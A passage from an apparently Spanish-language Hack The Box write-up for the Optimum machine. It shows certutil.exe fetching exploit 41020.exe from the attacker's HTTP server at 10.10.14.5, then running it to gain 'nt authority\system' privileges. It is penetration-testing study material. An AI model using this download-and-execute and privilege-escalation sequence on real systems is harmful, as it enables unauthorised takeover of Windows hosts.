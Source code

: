 ```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Optimum]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Usando `certutil.exe`

- Sintaxis de descarga:

```bat
certutil.exe -f -urlcache -split http://10.10.14.5:8000/41020.exe
```

- Descarga exitosa:

```bat
C:\Windows\Temp\PrivEsc>certutil.exe -f -urlcache -split http://10.10.14.5:8000/41020.exe
certutil.exe -f -urlcache -split http://10.10.14.5:8000/41020.exe
****  Online  ****
  000000  ...
  088c00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\PrivEsc>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EE82-226D

 Directory of C:\Windows\Temp\PrivEsc

08/01/2023  07:14 ��    <DIR>          .
08/01/2023  07:14 ��    <DIR>          ..
08/01/2023  07:04 ��            82.239 41015.exe    <<<------ Este no me sirvió, pero es posible lo haya cargado mal :P 
08/01/2023  07:14 ��           560.128 41020.exe    <<<------ Escploit que funcionó
08/01/2023  07:04 ��            82.239 Blob0_0.key
               3 File(s)        724.606 bytes
               2 Dir(s)   5.617.573.888 bytes free

C:\Windows\Temp\PrivEsc>

```

### Exploit!!!

- Solo es necesario ejecutar el `.exe`

```bat
C:\Windows\Temp\PrivEsc>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\Temp\PrivEsc>whoami
whoami
nt authority\system          <<<<------------------- PWNd!!! PrivEsc done

C:\Windows\Temp\PrivEsc>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
```